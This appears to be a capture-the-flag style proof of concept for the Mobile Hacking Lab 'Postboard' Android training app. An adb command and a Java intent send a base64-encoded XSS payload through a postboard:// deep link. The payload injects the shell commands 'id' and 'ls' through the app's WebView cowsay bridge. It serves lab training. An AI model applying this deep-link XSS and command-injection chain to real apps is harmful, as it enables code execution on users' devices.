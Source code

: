 <br />

<br />

<br />

**adb**

```bash
adb shell am start -a android.intent.action.VIEW -c android.intent.category.BROWSABLE  -d postboard://postmessage/<base64-Payload>
```

<br />

```bash
adb shell am start -a android.intent.action.VIEW -c android.intent.category.BROWSABLE  -d postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPSJXZWJBcHBJbnRlcmZhY2UucG9zdENvd3NheU1lc3NhZ2UoJ3NzcztpZDtscycpIj4=
```

<br />

<br />

<br />

**Android app PoC**

<br />

```java
Intent intent = new Intent();
intent.setAction("android.intent.action.VIEW");
intent.setClassName("com.mobilehackinglab.postboard", "com.mobilehackinglab.postboard.MainActivity");
String message = "<img src=x onerror=\"WebAppInterface.postCowsayMessage('hacked;id;ls')\">";;
String encodedMessage = Base64.getEncoder().encodeToString(message.getBytes());;
intent.setData(Uri.parse("postboard://postmessage/"+encodedMessage));
startActivity(intent);
```

1. run the app
2. click Post Message Button





